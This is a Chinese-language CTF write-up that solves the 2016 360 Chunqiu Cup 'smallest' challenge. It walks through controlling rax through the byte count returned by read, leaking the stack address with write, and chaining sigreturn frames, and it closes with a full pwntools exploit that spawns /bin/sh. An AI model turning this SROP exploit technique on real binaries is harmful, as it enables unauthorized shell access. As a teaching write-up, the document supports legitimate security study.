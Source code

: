 ## 例题：2016-360春秋杯-srop
首先还是进行check检查
![a](http://imgsrc.baidu.com/super/pic/item/f3d3572c11dfa9ecceeec3d627d0f703908fc12b.jpg)
嗯十分友好，接下来看看程序主体部分。
由于这个程序十分简单，我们直接用objdump进行观看
![a](http://imgsrc.baidu.com/super/pic/item/1f178a82b9014a90e800d27cec773912b31bee31.jpg)
是的没看错，就这么简单，大致讲解下代码含义：
        1. xor    %rax,%rax       //这里是将rax进行异或，咱们相同值异或结果为0，所以这里的含义即为将rax清0
        2. mov  %0x400,%edx   //移入0x400到edx中
        3. mov  %rsp,%rsi       //将栈首地址移入rsi中
        4. mov  %rax,%rdi      //将rax移入rdi中
        5. syscall                    //根据rax的值进行系统调用
        6. ret 
          
由于是64位程序，所以这里咱们可以知道这个函数是进行了read的系统调用，其参数分别处于rdi，rsi，rdx中，分别为0，站地址，0x400,也就是说从输入端读入0x400个字节至栈顶部分。
这里咱们首先想到[/md][md]修改rax来执行系统调用，但是我们如何在仅有的汇编代码下实现修改rax呢，可能有人会想到SROP，嗯，小伙子反应的很快，但是咱们这里还暂时用不了，所以我们这里利用了一个小技巧，那就是在进行read函数调用的过程中，rax会记录你总共所输入的字节数，所以我们会想到，如果咱们在这儿输入特定大小的值，那不就可以任意构造rax了嘛，这里我们进行实验给大伙看看。
  
---
这里是第一次执行syscall时的栈结构
![](http://imgsrc.baidu.com/super/pic/item/8694a4c27d1ed21be3abba24e86eddc450da3f95.jpg)
按照程序原来的意思执行一次read函数的系统调用后，此时我们任意输入一个值，我这里输入abcde
![](http://imgsrc.baidu.com/super/pic/item/c8177f3e6709c93da8aa9a36da3df8dcd0005493.jpg)
可以看到这里咱们的栈是任由咱们写的，然后下一条指令又是ret，所以我们会在此时跳转到我们写的这个值这里，在这儿也就是` call 0xa6564636261`,所以咱们这里有那么点想法，如果咱们要修改rax的值，那肯定要绕过第一条xor指令，所以咱们可以在栈上首先构造三个0x4000b0，至于为什么是三个，我之后会进行讲解。
### 第一步
在第一次read系统调用后，咱们输入三个0x4000b0（也即是xor的地址，由于没开地址随机，所以此值固定），此时栈结构如下
![](http://imgsrc.baidu.com/super/pic/item/d833c895d143ad4bd765d201c7025aafa50f06a3.jpg)
此时ret之后，咱们会跳转至xor进行重新一论的程序执行，在执行read的系统调用时，咱们输入‘\xb3’,这样的话会将第二个0x4000b0修改为0x4000b3，并且此时他是在栈上的，而且由于咱们现如今输入一个字节，所以rax也会加一，我们来调试看看是否如此
![](http://imgsrc.baidu.com/super/pic/item/203fb80e7bec54e7ac548edffc389b504ec26ab3.jpg)
可以看到确实修改成功，而此时根据程序流程，我们将会跳到0x4000b3进行执行，也就跳过了清空rax的过程，所以此时咱们（由于rax = 1）就会接着执行write的系统调用，并且打印出了栈顶地址，执行效果如下
![](http://imgsrc.baidu.com/super/pic/item/b64543a98226cffc04982b73fc014a90f703ea45.jpg)
### 第二步
        这里还有个小知识，那就是关于系统调用号，这里给出64位的相关调用号
        

|系统调用 | 调用号 | 函数原型 |
| -------- | -------- | -------- |
| read    | 0     | read( int fd, void *buf, size_t count )    |
| write    | 1     |write( int fd, const void *buf, size_t count )    |
| sigreturn   | 15     |int sigreturn( … )     |
| execve    | 59     | execve( const char *filename, char *const argv[], char *const envp[] )     |

执行到这里，由于咱们泄露出了栈顶地址，所以咱们最好就少动他，因为咱们之后要用到他的，所以咱们来小试牛刀一把，先利用SROP的思路进行read系统调用。
还记得咱们有三个0x4000b0么，此时还剩下最后一个，所以咱们此时在执行完write的系统调用之后会继续跳转到xor指令，但此时咱们不同了，这次咱们在栈上构造的为0x4000b0 + syscall地址 + read函数的伪造寄存器压栈值，这里我会讲解为何如此构造。
首先构造0x40000b0的目的是方便下一次执行循环，且下一次执行循环之后栈顶上的值会变为
syscall的地址，此时若在此轮read中咱们输入15个值，即可进行sigreturn的系统调用，但是如何输入值却又不改变栈上的值呢，那就是输入同样的值不就行了.
而在进行如下构造
```
read = SigreturnFrame()
read.rax = constants.SYS_read #read函数系统调用号
read.rdi = 0  #read函数一参
read.rsi = stack_addr  #read函数二参
read.rdx = 0x400  #read函数三参
read.rsp = stack_addr  #和rsi寄存器中的值保持一致，确保read函数写的时候rsp指向stack_addr
read.rip = syscall_ret #使得rip指向syscall的位置，在部署好read函数之后能直接调用0
pl2 = p64(0x4000b0) + p64(syscall_ret) + bytes(read)
pause()
#==== third read ====#
io.send(pl2)    #orchestral stack 
#gdb.attach(io)
#pause()
#==== fourth read ====#
io.send(pl2[8:8+15]) #put in place,so that we can syscall(rax:15) for sigreturn
```
其中后面的send即为修改rax所发送的，注意在本次系统调用是咱们自主调用而不是依照程序流程所得，在此之后由于咱们对于sigreturnframe的构造，接下来会进行read的系统调用。
### 第三步
由于又是一次read的系统调用，所以此时咱们还是选择类似上面write一样进行execve系统调用，只不过这里利用了点sigreturn的知识，这里还有个需要注意的点那就是/bin/sh的构造是构造到栈上然后自行计算偏移地址，这里我就不多讲了想必大伙已经捻熟于心，所以此次执行后再次进行SROP攻击，最终结果如下
![](http://imgsrc.baidu.com/super/pic/item/5fdf8db1cb134954b3f97ca5134e9258d0094a08.jpg)
大获全胜！！！
## 总结
总结是什么呢，总结就是注意点send和sendline的区别，还有就是经过sigreturnframe构造的串，用bytes(read)跟用bytes(str(read),'utf8')不一样，坑死我了。对于今天攻击的技巧而言更多是对syscall等系统调用的深入理解了。
 
---
以下附上exp：
```
from pwn import *
io = process('./smallest')
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']
syscall_ret = 0x4000be
#==== first read ====#
pl = p64(0x4000b0)*3
gdb.attach(io)
io.send(pl)         #let the ret_addr to 0x4000b0
pause()
#==== second read ====#
io.send('\xb3')     #let the ret_addr to 0x4000b3
io.recv(8)          #rax is 0x1,syscall for write
stack_addr = u64(io.recv(8))
io.success('stack_addr ==>'+hex(stack_addr))
read = SigreturnFrame()
read.rax = constants.SYS_read #read函数系统调用号
read.rdi = 0  #read函数一参
read.rsi = stack_addr  #read函数二参
read.rdx = 0x400  #read函数三参
read.rsp = stack_addr  #和rsi寄存器中的值保持一致，确保read函数写的时候rsp指向stack_addr
read.rip = syscall_ret #使得rip指向syscall的位置，在部署好read函数之后能直接调用0
pl2 = p64(0x4000b0) + p64(syscall_ret) + bytes(read)
pause()
#==== third read ====#
io.send(pl2)    #orchestral stack 
#gdb.attach(io)
#pause()
#==== fourth read ====#
io.send(pl2[8:8+15]) #put in place,so that we can syscall(rax:15) for sigreturn

#==== sigreturn read ====#
execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = stack_addr + 0x120
execve.rsi = 0
execve.rdx = 0
execve.rsp = stack_addr
execve.rip = syscall_ret

pl3 = p64(0x4000b0) + p64(syscall_ret) +  bytes(execve)
print(len(pl3))
#pause()
pl3 += (0x120 - len(pl3))*b'\x00' + b'/bin/sh\x00'

io.send(pl3)
#pause()
io.send(pl3[8:8+15])
#gdb.attach(io)
io.interactive()

```
